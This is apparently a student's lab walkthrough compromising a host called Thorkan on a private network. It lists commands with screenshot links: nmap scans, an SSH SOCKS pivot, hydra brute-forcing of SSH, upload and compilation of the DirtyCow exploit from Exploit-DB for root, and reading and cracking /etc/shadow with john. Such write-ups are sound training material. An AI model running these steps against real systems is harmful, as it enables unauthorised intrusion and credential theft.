 ﻿# Thorkan 192.168.10.4
## Andrea Zonnekus 18758119

ip a

![](thorkan_steps/Aspose.Words.3262bff9-abbb-477a-94ec-767f23ff51f9.001.png)

su firefart

![](thorkan_steps/Aspose.Words.3262bff9-abbb-477a-94ec-767f23ff51f9.002.png)

nmap -F 192.168.10.10/24 –open

![](thorkan_steps/Aspose.Words.3262bff9-abbb-477a-94ec-767f23ff51f9.003.png)

192.168.10.4

192.168.10.30



nmap -Pn -sV -p- 192.168.10.4

![](thorkan_steps/Aspose.Words.3262bff9-abbb-477a-94ec-767f23ff51f9.004.png)

https://sushant747.gitbooks.io/total-oscp-guide/content/port\_forwarding\_and\_tunneling.html

ssh -D 9050 aetian@192.168.2.150 -o HostKeyAlgorithms=+ssh-dss

![](thorkan_steps/Aspose.Words.3262bff9-abbb-477a-94ec-767f23ff51f9.005.png)

proxychains nmap -sV -sC -p 21,22,80,111,2049,5801,5901,54176,54364,60849 -Pn --open 192.168.10.4 -oN host

![](thorkan_steps/Aspose.Words.3262bff9-abbb-477a-94ec-767f23ff51f9.006.png)

proxychains [ftp 192.168.10.4]()

![](thorkan_steps/Aspose.Words.3262bff9-abbb-477a-94ec-767f23ff51f9.007.png)



proxychains dirb <http://192.168.10.4>

![](thorkan_steps/Aspose.Words.3262bff9-abbb-477a-94ec-767f23ff51f9.008.png)

proxychains firefox <http://192.168.10.4/index.html>

![](thorkan_steps/Aspose.Words.3262bff9-abbb-477a-94ec-767f23ff51f9.009.png)

proxychains nikto -host <http://192.168.10.4>

![](thorkan_steps/Aspose.Words.3262bff9-abbb-477a-94ec-767f23ff51f9.010.png)

proxychains4 vncviewer 192.168.10.4:5901

![](thorkan_steps/Aspose.Words.3262bff9-abbb-477a-94ec-767f23ff51f9.011.png)

proxychains hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://192.168.10.4 -m ssh -e nsr

![](thorkan_steps/Aspose.Words.3262bff9-abbb-477a-94ec-767f23ff51f9.012.png)

(checked the tutorial and rockyou would never have found this one)

(wanted to have some fun with hashcat anyways so made password.txt which has ‘password’

hashcat --force password.txt -r /usr/share/hashcat/rules/best64.rule --stdout >> passwords.txt

![](thorkan_steps/Aspose.Words.3262bff9-abbb-477a-94ec-767f23ff51f9.013.png)

proxychains hydra -L users.txt -P passwords.txt ssh://192.168.10.4 -m ssh -e nsr

![](thorkan_steps/Aspose.Words.3262bff9-abbb-477a-94ec-767f23ff51f9.014.png)

proxychains ftp <vinicius@192.168.10.4>

![](thorkan_steps/Aspose.Words.3262bff9-abbb-477a-94ec-767f23ff51f9.015.png)



proxychains ssh vinicius@192.168.10.4 -o HostKeyAlgorithms=+ssh-dss

![](thorkan_steps/Aspose.Words.3262bff9-abbb-477a-94ec-767f23ff51f9.016.png)

uname -a

![](thorkan_steps/Aspose.Words.3262bff9-abbb-477a-94ec-767f23ff51f9.017.png)

put test.txt

![](thorkan_steps/Aspose.Words.3262bff9-abbb-477a-94ec-767f23ff51f9.018.png)

binary

put les.sh

![](thorkan_steps/Aspose.Words.3262bff9-abbb-477a-94ec-767f23ff51f9.019.png)

https://www.exploit-db.com/raw/40839

put 40839.c

![](thorkan_steps/Aspose.Words.3262bff9-abbb-477a-94ec-767f23ff51f9.020.png)

gcc 40839.c -pthread -o cow -lcrypt

./cow

![](thorkan_steps/Aspose.Words.3262bff9-abbb-477a-94ec-767f23ff51f9.021.png)



su firefart

whoami

id

![](thorkan_steps/Aspose.Words.3262bff9-abbb-477a-94ec-767f23ff51f9.022.png)

cat /etc/passwd

![](thorkan_steps/Aspose.Words.3262bff9-abbb-477a-94ec-767f23ff51f9.023.png)

cat /etc/shadow

![](thorkan_steps/Aspose.Words.3262bff9-abbb-477a-94ec-767f23ff51f9.024.png)

john passwd shadow

![](thorkan_steps/Aspose.Words.3262bff9-abbb-477a-94ec-767f23ff51f9.025.png)
